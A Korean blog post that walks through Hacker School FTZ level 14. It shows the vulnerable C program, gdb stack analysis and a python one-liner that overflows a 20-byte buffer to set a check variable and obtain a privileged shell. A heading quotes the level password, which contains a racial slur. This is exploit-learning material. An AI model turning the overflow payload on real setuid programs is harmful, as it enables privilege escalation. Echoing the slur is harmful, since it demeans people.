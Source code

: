 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 14"
description: "Do you know the canary (2)?"
comments: true
categories: FTZ
---
```


<img data-action="zoom" src='{{ "assets/ftz/level14/1.jpg" | relative_url }}' alt='relative'>  

## 1) level14/what that nigga want? 입력해 로그인  

<img data-action="zoom" src='{{ "assets/ftz/level14/2.png" | relative_url }}' alt='relative'>  

``` c
// attackme 프로그램의 소스파일
#include <stdio.h>
#include <unistd.h>

main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```

이번에도 attackme 프로그램을 실행시켜 버퍼 오버플로우를 일으켜 shell을 획득하는 문제로 보입니다.  
/tmp 디렉토리에 힌트에 적힌 소스코드를 복사해 파일을 하나 만듭니다.  
(저의 경우 소스코드는 at.c 파일명으로 저장했으며, 실행파일의 이름은 at로 지정했습니다.)  

그다음 gdb로 돌려 스택의 구성을 살펴보겠습니다.  

## 2) 해당 소스코드의 스택 구조 파악하기  

<img data-action="zoom" src='{{ "assets/ftz/level14/3.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level14/4.png" | relative_url }}' alt='relative'>  

어셈블리어 코드를 보면 그림과 같이 스택이 구성되어 있다는 것을 알 수 있습니다.  


사용자에게 문자열을 입력받은 뒤, &\[ebp-16\] 주소에 0xdeadbeef이 저장되어 있는지 확인하는 코드에서 브레이크를 걸고 실행해봅니다.  

``` bash
b *main+48
r <<< $(python -c 'print "\x90"*40+"\xef\xbe\xad\xde"')
```  

<img data-action="zoom" src='{{ "assets/ftz/level14/5.png" | relative_url }}' alt='relative'>  

입력한 내용과 같이 buf 배열의 길이는 20이지만 버퍼 오버플로우가 발생하여 사용자가 입력한 문자열 45 byte(문자열의 끝을 의미하는 NULL까지 더한 값) 모두 스택에 저장되어 있는 것을 볼 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level14/6.png" | relative_url }}' alt='relative'>  

``` bash
(python -c 'print "\x90"*40+"\xef\xbe\xad\xde"'; cat) | ./at
```

at 프로그램에 적용해보면 shell이 실행되는 것을 볼 수 있습니다.  

## 3) attackme 프로그램에 버퍼 오버플로우 일으키기  

<img data-action="zoom" src='{{ "assets/ftz/level14/7.png" | relative_url }}' alt='relative'>  

``` bash
(python -c 'print "\x90"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme
```

attackme 프로그램에 적용해 level15 권한으로 shell을 실행시켰으며 level15의 비밀번호를 획득했습니다.  